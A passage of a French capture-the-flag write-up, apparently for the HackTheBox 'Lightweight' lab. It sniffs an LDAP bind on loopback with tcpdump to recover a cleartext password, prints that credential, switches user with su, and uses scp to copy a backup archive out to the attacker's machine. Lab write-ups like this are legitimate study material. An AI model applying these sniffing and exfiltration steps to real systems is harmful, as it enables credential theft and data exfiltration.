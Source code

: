     [10.10.12.232@lightweight ~]$ tcpdump -i lo -nnXSs 0 'port 389'
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
    
Après avoir taper la commande vous devez obligatoirement allez sur le serveur HTTP est d'exécuter toutes les pages le plus important **status.php**.

	0x0000:  4500 008f 3c3f 4000 4006 d528 0a0a 0a77  E...<?@.@..(...w
	0x0010:  0a0a 0a77 ad98 0185 83a1 cdb7 c84a 7ff5  ...w.........J..
	0x0020:  8018 02ab 2983 0000 0101 080a 003f f18c  ....)........?..
	0x0030:  003f f18b 3059 0201 0160 5402 0103 042d  .?..0Y...`T....-
	0x0040:  7569 643d 6c64 6170 7573 6572 322c 6f75  uid=ldapuser2,ou
	0x0050:  3d50 656f 706c 652c 6463 3d6c 6967 6874  =People,dc=light
	0x0060:  7765 6967 6874 2c64 633d 6874 6280 2038  weight,dc=htb..8
	0x0070:  6263 3832 3531 3333 3261 6265 3164 3766  bc8251332abe1d7f
	0x0080:  3130 3564 3365 3533 6164 3339 6163 32    105d3e53ad39ac2
    
Parfait nous avons trouver le mot de passe grâce à TCPDUMP nous avons pour de bon trouver le mot de passe nous devons nous connecter avec la commande **su**.

    [10.10.12.232@lightweight ~]$ su - ldapuser2
    Mot de passe : 
    Dernière connexion : dimanche 30 décembre 2018 à 08:38:47 GMT sur pts/1
    [ldapuser2@lightweight ~]$ 
    
> Username : ldapuser2 <br />
> Password : 8bc8251332abe1d7f105d3e53ad39ac2

Parfait nous sommes connecté.

    [ldapuser2@lightweight ~]$ ls
    backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
    [ldapuser2@lightweight ~]$ wc -c user.txt 
    33 user.txt
    [ldapuser2@lightweight ~]$

Comme vous pouvez le voir il y'a un fichier backup nous allons essayer de le transférer vers notre machine physique avec la commande **scp**.

    [ldapuser2@lightweight ~]$ scp -r -p $HOME/backup.7z seyptoo@10.10.12.232:/home/seyptoo/Bureau
    The authenticity of host '10.10.12.232 (10.10.12.232)' can't be established.
    ECDSA key fingerprint is SHA256:4ycMzm1pTioJxy5Bc7ALoE3W6QCRow3C0LSnbSmsMzo.
    ECDSA key fingerprint is MD5:3e:3c:10:13:79:db:36:76:a5:85:b5:8e:3b:ce:08:98.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '10.10.12.232' (ECDSA) to the list of known hosts.
    seyptoo@10.10.12.232's password: 
    backup.7z                                                                                                                       100% 3411    56.4KB/s   00:00    
    [ldapuser2@lightweight ~]$
    
Parfait le fichier a été transférer avec succès ! C'est un fichier 7z nous devons extraire le fichier avec la commande **7z**.

    root@seyptoo-Aspire-E5-721:/home/seyptoo/Bureau# 7z x backup.7z 

    7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
    p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)
